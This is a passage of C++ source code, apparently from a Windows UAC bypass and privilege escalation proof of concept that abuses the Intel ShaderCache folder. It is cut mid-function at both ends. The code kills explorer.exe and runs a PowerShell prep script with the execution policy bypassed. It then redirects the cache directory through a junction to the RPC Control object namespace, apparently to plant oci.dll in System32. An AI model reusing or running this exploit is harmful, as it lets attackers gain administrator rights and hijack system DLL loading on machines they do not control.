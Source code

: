 ```cpp
        Sleep(1000);
    }
    else {
        std::wcout << L"There are still files...continuing to kill tasks and delete stuff...Remaining file: " << checkEmpty << std::endl;
        Sleep(1000);
        checkdir();
    }
}

int wmain() {
    std::cout << "********************************\nIMPORTANT\n********************************\n";
    std::cout << "Before continuing, make sure ALL Desktop apps with a GUI are closed.  This includes browsers, notepad, discord, etc\n";
    std::cout << "The tool is only accounting for built in windows processes that have handles to files in the shadowcache directory\n";
    std::cout << "Press [ENTER] to continue...\n";
    std::cin.get();
    std::wstring recentFile, initialcheck;
    std::wstring dllTarget = L"\\??\\C:\\Windows\\System32\\oci.dll";

    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000); 

    std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";
    initialcheck = GetMostRecentFile(dir);

    if (initialcheck.empty()) {
        std::wcerr << L"Good news! No files found in the directory.\n";
    }
    else {
        std::wcout << L"Most recent file: " << initialcheck << std::endl;

        // Write to text file
        std::wofstream outFile(L"c:\\users\\public\\recent.txt");
        if (outFile) {
            outFile << initialcheck;
            outFile.close();
        }
        else {
            std::wcerr << L"Failed to write to recent.txt\n";
        }
    }
    WinExec("powershell.exe -ExecutionPolicy Bypass -File c:\\users\\robbi\\Desktop\\intel_uacbypass_prep.ps1", 0);

    Sleep(3000);

    WinExec("cmd.exe /c TASKKILL /F /IM explorer.exe", 0);
    Sleep(500);
    checkdir();

    // Create the junction
    CreateJunction(L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", L"\\??\\GLOBALROOT\\RPC CONTROL");

    std::wifstream inFile(L"c:\\users\\public\\recent.txt");

    if (inFile) {
        std::getline(inFile, recentFile); 
        inFile.close();

        std::wcout << L"Value read from file: " << recentFile << std::endl;
    }
```